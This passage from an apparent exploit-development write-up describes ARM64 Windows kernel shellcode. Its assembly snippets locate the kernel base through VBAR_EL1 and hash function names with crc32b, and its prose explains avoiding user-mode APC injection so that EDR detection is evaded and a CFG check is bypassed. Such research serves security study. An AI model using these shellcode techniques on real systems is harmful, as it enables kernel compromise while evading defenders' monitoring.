 Once we get the address of `nt!KiArm64ExceptionVectors` we can just walk it backwards until we find the `MZ` file header of the image.
```asm
    ; Search for NTBase
    mrs     x4, VBAR_EL1
    ldrh    w8, [x4]
    mov     w9, #0x5A4D
    cmp     w8, w9
    beq     xxx_break_nt_base

xxx_loop_nt_base
    sub     x4, x4, #1, lsl#12
    ldrh    w8, [x4]
    cmp     w8, w9
    bne     xxx_loop_nt_base
```

### Hashing functions
ARM64 processors have built-in [CRC32 opcodes](https://android.googlesource.com/platform/external/linux-kselftest/+/d97034ccdf0a13ad86f00945df245bbaf0780478/arch/arm64/crypto/crc32-arm64.c) that can be leveraged for hashing buffers, this is quiet nice and I decided to use `crc32b` for my `GetProcAddress` implementation.

```asm
xxxComputeHash PROC
    mov     x9, x0
    ldrsb           w8, [x9]
    mov     w0, #0
    mov     w10, #0
    cbz     w8, xxx_compute_hash_exit

xxx_compute_hash_loop
    add     w10, w10, #1
    crc32b          w0, w0, w8
    ldrsb           w8, [x9,w10,sxtw]
    cbnz    w8, xxx_compute_hash_loop

xxx_compute_hash_exit
    ret
    ENDP
```

### Fool me once, shame on you; fool me twice...
Unlike other kernel shellcodes that are using APC (Asynchronous Procedure Call) twice, I use it only once to run my kernel APC but not for my userland payload. [Souhail Hammou posted last year](http://rce4fun.blogspot.com/2019/04/circumventing-windows-defender-atps.html) that Windows Defender ATP (and probably all the other EDRs relying on ETW events...) detects user-mode APC injection from kernel-mode, and hugeh0ge also [mentioned](https://ricercasecurity.blogspot.com/2020/04/ill-ask-your-body-smbghost-pre-auth-rce.html) that the userland Control Flow Guard (CFG) intercepts calls via  `ntdll!KiUserApcDispatch -> ntdll!LdrpValidateUserCallTarget` before executing any APC injected shellcode. This would require us to patch `ntdll!LdrpValidateUserCallTarget` to have a successful execution. 
